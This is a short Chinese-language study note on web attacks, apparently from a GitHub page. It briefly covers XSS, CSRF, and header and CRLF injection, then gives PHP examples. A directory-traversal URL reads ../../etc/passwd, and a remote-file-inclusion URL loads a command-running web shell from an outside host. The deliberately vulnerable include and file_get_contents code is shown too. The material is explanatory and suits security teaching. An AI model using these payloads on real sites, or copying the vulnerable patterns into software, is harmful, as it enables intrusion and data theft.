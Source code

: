 #### 被动攻击：

- XSS
- CSRF
- HTTP 首部注入（应该避免将外部接收到的值，赋给响应首部的字段，例如 Location / Set-Cookie 字段。攻击者会利用漏洞在响应首部字段内插入换行，从而达到添加任意响应首部或主体的目的）
    - Location / Set-Cookie
    - HTTP 响应截断攻击，将`%0D%0A%0D%0A`并排插入响应主体，这两个连续的换行会将 HTTP 头部和主体分隔。这样就能伪造主体部分。
- 邮件首部注入（利用 To / Subject 添加非法内容）

#### 目录遍历攻击

例如有页面：

```text
http://silverd.cn/read.php?file=0401.log
```

文件 `read.php` 内容：

```php
echo file_get_contents(RESOURCE_PATH . '/' . $_GET['file']);
```

攻击者改为：

```text
http://silverd.cn/read.php?file=../../etc/passwd
```

就可以读到不该读的东西了。

#### 远程文件包含漏洞


例如有页面：

```text
http://silverd.cn/index.php?controller=news
```

文件 `index.php` 内容：

```php
$controller = $_GET['controller'];
include_once APP_PATH . '/controllers/' . $controller;
```

攻击者改为：

```text
http://silverd.cn/index.php?controller=http://hackr.jp/cmd.php?cmd=ls
```

事先 `cmd.php` 已准备好攻击脚本：

```php
system($_GET['cmd']);
```

当 `http://silverd.cn/index.php` 运行时，就中招了。

